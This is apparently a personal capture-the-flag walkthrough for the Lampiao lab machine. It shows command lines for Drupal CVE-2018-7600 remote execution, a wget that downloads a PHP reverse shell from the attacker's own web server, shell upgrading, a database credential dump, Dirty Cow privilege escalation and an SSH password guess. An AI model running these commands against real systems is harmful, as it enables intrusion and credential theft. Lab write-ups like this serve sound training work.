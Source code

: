 # Lampiao


# Netdiscover
![[Pasted image 20220505075716.png]]

```text
192.168.1.141
```

# Port scan
```text
22/tcp   open  ssh        syn-ack ttl 64 OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7 (Ubuntu Linux; protocol 2.0)
80/tcp   open  tcpwrapped syn-ack ttl 64
1898/tcp open  http       syn-ack ttl 64 Apache httpd 2.4.7 ((Ubuntu))

```


# Port 80
![[Pasted image 20220505112416.png]]

# Port 1898

![[Pasted image 20220505112501.png]]

Robots.txt has interesting entry: `Disallow/CHANGELOG.txt`

![[Pasted image 20220505112942.png]]

Found an [exploit for drupal 7 < 7.57] (https://github.com/pimps/CVE-2018-7600)

### RCE via CVE-2018-7600
```bash
./drupa7-CVE-2018-7600.py -c whoami http://lampiano:1898/
```

![[Pasted image 20220505113408.png]]

# Reverse php webshell
copy the binary to your working folder
```bash
cp /usr/share/webshells/php/php-reverse-shell.php .
```
Remove the comments and change IP/port

host file on webserver
```bash
python3 -m http.server 82
```

Download to victim
```bash
./drupa7-CVE-2018-7600.py -c 'wget http://192.168.1.112:88/php-reverse-shell.php' http://lampiano:1898/
```

Activate the shell by visiting the webpage
```
http://lampiano:1898/shell.php
```

Fix the shell
```python3
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
export TERM=xterm
```


# linPEAS findings
![[Pasted image 20220505121649.png]]

![[Pasted image 20220505121707.png]]

![[Pasted image 20220505121911.png]]

Found DB creds in `/var/www/html/sites/default/settings.php`
![[Pasted image 20220505122159.png]]

Get on the SQL db
```bash
mysql -u drupaluser -pVirgulino
```

Dump the users table

```mysql
+-------+---------------------------------------------------------+
| name  | pass                                                    |
+-------+---------------------------------------------------------+
|       |                                                         |
| tiago | $S$DNZ5o1k/NY7SUgtJvjPqNl40kHKwn4yXy2eroEnOAlpmT0TJ9Sx8 |
| Eder  | $S$Dv5orvhi7okjmViImnVPmVgfwJ2U..PNK4E9IT/k7Lqz9GZRb7tY |
| admin | $S$DQRp/JT8KnSM8cFRgzOlKL83DnHt6yxXieQ5hcq3me2bYeiA5p8A |
+-------+---------------------------------------------------------+
```

Tried cracking the hashes to no aval. Drupal 7 hashes take forever to crack, so I had plenty of time to think. PASSWORD REUSE. I should have immediately tried to `su` with the db password.

![[Pasted image 20220505130229.png]]

At this point we can drop the webshell and switch to ssh if desired.

## Linpeas findings

![[Pasted image 20220505131959.png]]

[Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester.git) picked up `Dirty Cow 2` as a possible exploit.

```bash
searchsploit -m 40839
```

Compile & run on victim
```bash
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil && ./dcow -s
```

# Root Flag
![[Pasted image 20220505163611.png]]


# Additional Exploitation methods
Able to break into `tiago` by scraping a detailed post and feeding all the words as a password through ssh. It only takes about 7 seconds to find the correct password this way.
![[Pasted image 20220505160555.png]]

